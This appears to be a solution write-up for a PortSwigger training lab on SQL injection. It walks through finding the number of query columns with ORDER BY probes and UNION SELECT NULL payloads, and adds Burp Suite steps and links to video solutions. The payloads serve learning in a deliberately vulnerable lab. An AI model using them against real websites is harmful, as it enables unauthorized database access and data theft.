# Lab: SQL injection UNION attack, determining the number of columns returned by the query

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that returns an additional row containing null values.



# Common SQLi Attack

## Adding a single quote `'`.





# Identify Column Count Attack

`UNION SELECT NULL—-`




`'ORDER BY 1--`





`'ORDER BY 2--`



`'ORDER BY 3--`



`'ORDER BY 4--`



There are 3 columns for the request.

# Performing the Attack



```sql
'UNION SELECT NULL,NULL,NULL--
```



# Other Solutions

## Burp Suite

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Modify the `category` parameter, giving it the value `'+UNION+SELECT+NULL--`. Observe that an error occurs.
3. Modify the `category` parameter to add an additional column containing a null value: `'+UNION+SELECT+NULL,NULL--`
4. Continue adding null values until the error disappears and the response includes additional content containing the null values.

## Community Solutions

Rana Khalil

[SQL Injection - Lab #3 SQLi UNION attack determining the number of columns returned by the query](https://youtu.be/umXGHbEyW5I)

Michael Sommer

[SQL injection UNION attack, determining the number of ... (Video solution, Audio)](https://youtu.be/P7ARzl7OKzk)

